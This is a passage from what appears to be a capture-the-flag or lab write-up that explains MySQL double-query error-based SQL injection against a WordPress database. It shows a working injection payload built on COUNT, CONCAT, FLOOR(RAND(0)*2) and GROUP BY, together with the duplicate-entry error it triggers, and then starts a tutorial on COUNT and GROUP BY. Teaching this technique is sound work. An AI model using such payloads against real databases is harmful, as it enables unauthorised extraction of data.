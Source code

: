 
Running the query that is created above, the same message comes back:

    
    
    mysql> SELECT ID FROM wp_posts WHERE post_name = 1 AND (SELECT 7485 FROM(SELECT COUNT(*),CONCAT(0x716a717871,(SELECT (ELT(7485=7485,1))),0x71627a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a);
    ERROR 1062 (23000): Duplicate entry 'qjqxq1qbzxq1' for key '<group_key>'
    

### Background

#### COUNT

To understand Double Query Error-Based injection, it’s important to understand
a couple SQL keywords.

`COUNT(*)` will return show the number of rows in a given group. So I can find
the number of posts:

    
    
    mysql> select COUNT(*) from wp_posts;
    +----------+
    | COUNT(*) |
    +----------+
    |       42 |
    +----------+
    1 row in set (0.00 sec)
    

Or I can group by `post_title` and get the number of each title:

    
    
    mysql> select COUNT(*), post_title from wp_posts group by post_title;
    +----------+---------------------------------+
    | COUNT(*) | post_title                      |
    +----------+---------------------------------+
    |        4 |                                 |
    |        1 | A homepage section              |
    |        1 | About                           |
    |        1 | Auto Draft                      |
    |        1 | Blog                            |
    |        2 | Coffee                          |
    |        1 | Contact                         |
    |        1 | cropped-enterprise_header-1.jpg |
    |        1 | Email                           |
    |        2 | enterprise_header               |
    |        2 | Espresso                        |
    |        1 | Facebook                        |
    |        2 | Hello world!                    |
    |        2 | Home                            |
    |        1 | Instagram                       |
    |        3 | Passwords                       |